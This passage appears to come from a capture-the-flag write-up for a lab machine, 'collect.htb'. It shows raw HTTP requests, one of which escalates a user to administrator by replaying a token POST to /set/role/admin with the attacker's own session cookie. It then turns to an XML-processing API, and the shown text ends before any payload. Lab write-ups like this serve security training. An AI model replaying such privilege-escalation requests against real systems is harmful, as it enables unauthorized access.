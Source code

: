Decoding the request, we find that it gives us a token.

```http
POST /set/role/admin HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=r8qne20hig1k3li6prgk91t33j
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

token=ddac62a28254561001277727cb397baf
```

By replacing the PHPSESSID with our own created user, we can become an administrator by sending the same POST request to the website.

<figure><img src="../../../.gitbook/assets/image (37) (1) (2).png" alt=""><figcaption></figcaption></figure>

From here, we can register our own user and gain access to the API stuff.

### API

Reading the reques send to the API, we can see that this processes requests using XML.

```http
POST /api HTTP/1.1
Host: 10.129.106.251
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 178
Origin: http://10.129.106.251
Connection: close
Referer: http://10.129.106.251/admin
Cookie: PHPSESSID=e50hu9lk5rkblb7tdlm3310fk4


```